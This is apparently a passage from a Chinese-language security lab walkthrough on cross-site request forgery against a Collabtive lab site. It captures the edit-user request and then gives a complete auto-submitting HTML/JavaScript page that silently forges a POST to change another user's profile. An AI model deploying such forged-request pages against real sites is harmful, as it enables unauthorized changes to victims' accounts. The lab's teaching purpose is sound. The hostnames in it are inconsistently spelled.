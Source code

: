 step2:访问 www.csrflabcollabtive.com并进行登录。

>用户：admin 密码：admin

step3:我们登陆了自己的用户，当我们希望可以修改别人的用户时，我们需要知道修改数据时的数据流，这个时候我们可以使用firefox浏览器自带的LiveHttpHeader插件来进行抓包获取修改用户时候的http消息；

点击菜单栏tools-LiveHttpHeader，然后访问编辑用户页面；

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid13labid876time1429077485549?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid13labid876time1429077497500?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

通过抓取的信息，我们可以得知：

验证页面：http://www.csfrlabcollabtive.com/manageuser.php?action=edit

用户姓名id:name；company；email等等信息我们都可以进行修改；

**这里最好使用其他用户进行测试**

但是用户修改用户的方式post提交，我们就需要自己构造一个危险页面

```
>     <html><body><h1>
>     This page forges an HTTP POST request.
>     </h1>
>     <script>
>     function post(url,fields)
>     {
>     //create a <formelement.
>     var p = document.createElement('form');
>     //construct the form
>     p.action = url;
>     p.innerHTML = fields;
>     p.target = '_self';
>     p.method = 'post';
>     //append the form to the current page.
>     document.body.appendChild(p);
>     //submit the form
>     p.submit();
>     }
>     function csrf_hack()
>     {
>     var fields;
>     // The following are form entries that need to be filled out
>     // by attackers. The entries are made hidden, so the victim
>     // won't be able to see them.
>     fields += "<input type='hidden' name='name' value='peter'>"; //修改用户名
>     fields += "<input type='hidden' name='userfile' value=''>";  
>     fields += "<input type='hidden' name='company' value='seed'>";  //修改公司名
>     post('http://www.csrflabcollabtive/manageuser.php?action=edit',fields);
>     }
>     // invoke csrf_hack() after the page is loaded.
>     window.onload = function() { csrf_hack(); }
>     </script>
>     </body></html>
```

